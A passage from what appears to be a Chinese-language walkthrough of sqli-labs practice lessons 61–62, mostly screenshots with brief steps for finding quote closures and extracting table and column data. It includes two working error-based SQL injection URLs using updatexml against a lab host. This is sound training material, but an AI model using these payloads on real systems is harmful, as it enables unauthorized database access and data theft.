 * 查看闭合方式


![image](https://user-images.githubusercontent.com/76896357/115132234-c2ae2880-a030-11eb-8ad8-44342a69786f.png)

* 直接看一下能不能报错注入

![image](https://user-images.githubusercontent.com/76896357/115132248-043ed380-a031-11eb-9ad9-f374aaa5f3b6.png)

又是一道改变闭合方式的题

## 61. '))的闭合方式

* 查看闭合方式

![image](https://user-images.githubusercontent.com/76896357/115132263-2c2e3700-a031-11eb-97ae-886f90e025bb.png)

* 看一下能不能报错注入

![image](https://user-images.githubusercontent.com/76896357/115132299-96df7280-a031-11eb-9aac-77b8256bb3aa.png)

* 报表

![image](https://user-images.githubusercontent.com/76896357/115132330-c2faf380-a031-11eb-9c67-17140a30089b.png)

* 报列

```
http://192.168.220.12/sqli/Less-61/?id=1%27))%20and%20updatexml(1,concat(%27~%27,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27vhe0p7yp4g%27),%27~%27),1)%20--+
```
![image](https://user-images.githubusercontent.com/76896357/115132348-f6d61900-a031-11eb-9efa-50215c6bee2f.png)

* 报字段

```
http://192.168.220.12/sqli/Less-61/?id=1%27))%20and%20updatexml(1,concat(%27~%27,(select%20sessid%20from%20challenges.vhe0p7yp4g),%27~%27),1)%20--+
```
![image](https://user-images.githubusercontent.com/76896357/115132399-62b88180-a032-11eb-9246-0c50d2624470.png)

改一下，表名就好了。。

## 62. union select 和 报错都不行的挑战

* 查看闭合方式

![image](https://user-images.githubusercontent.com/76896357/115132468-f2f6c680-a032-11eb-89c3-0007376a6510.png)

‘)的闭合方式

* 看一下有没有回显

![image](https://user-images.githubusercontent.com/76896357/115132480-2fc2bd80-a033-11eb-8d72-62a55251e173.png)
